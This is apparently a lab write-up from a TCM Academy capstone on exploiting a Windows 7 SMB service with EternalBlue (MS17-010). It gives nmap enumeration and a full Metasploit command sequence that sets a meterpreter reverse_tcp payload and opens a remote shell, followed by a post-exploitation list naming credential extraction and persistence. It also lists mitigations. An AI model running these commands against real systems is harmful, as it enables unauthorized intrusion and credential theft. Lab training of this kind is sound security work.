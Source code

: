 # TCM Academy Capstone Lab: Blue (EternalBlue Exploit)

## Overview

This writeup covers the exploitation of a vulnerable SMB service in the "Blue" lab from TCM Academy using the EternalBlue exploit. The attack involves enumerating the target using `nmap` and exploiting it using `Metasploit Framework`.

## Tools Used

- `nmap` (for enumeration)
- `Metasploit Framework` (for exploitation)

## Enumeration

To identify the vulnerable SMB service, an `nmap` scan was performed:

```bash
sudo nmap -T4 -A <TARGET-IP>
```

![2025-03-16_08-00](https://github.com/user-attachments/assets/a4f07f5f-3d6e-4bba-a340-f40e983af7c0)

This revealed that the target is running **Windows 7 Ultimate Service Pack 1** and has SMB (`port 445`) open.

Additionally, searching for known exploits for this version confirmed that it is vulnerable to **MS17-010 (EternalBlue):**

![2025-03-16_08-01](https://github.com/user-attachments/assets/157b6e80-f5fe-4790-8b26-9de9e929e066)

## Exploitation

Using Metasploit, the following steps were executed:

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the EternalBlue exploit:
   ```bash
   search ms17-010
   ```
   ![2025-03-16_08-05](https://github.com/user-attachments/assets/30f4e4cb-3d78-42f8-99bc-39f1fe851f51)

3. Select the EternalBlue exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
4. Set the required options:
   ```bash
   set RHOSTS <TARGET-IP>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <YOUR-IP>
   set LPORT 4444
   ```
   ![2025-03-16_08-08](https://github.com/user-attachments/assets/47abc61b-49e0-4a92-ae80-3bd95076ff95)

5. Launch the exploit:
   ```bash
   exploit
   ```
   ![2025-03-16_08-09](https://github.com/user-attachments/assets/3c1e2b1d-f7fe-46c6-bca0-3e1e02f5234f)

If successful, this grants a **Meterpreter session**, providing remote access to the target:

![2025-03-16_08-10](https://github.com/user-attachments/assets/695114f6-1600-48d1-8d41-00e83ea9a583)

## Post-Exploitation

Once access is gained, various post-exploitation techniques can be used, such as:

- Privilege escalation
- Extracting credentials
- Maintaining persistence

## Mitigation

To prevent exploitation, the following security measures should be implemented:

- Patch the system (apply MS17-010 update)
- Disable SMBv1
- Restrict access to SMB services

## Conclusion

This lab demonstrated how the EternalBlue exploit can be used to compromise a vulnerable SMB service, highlighting the importance of timely patching and proper system hardening.

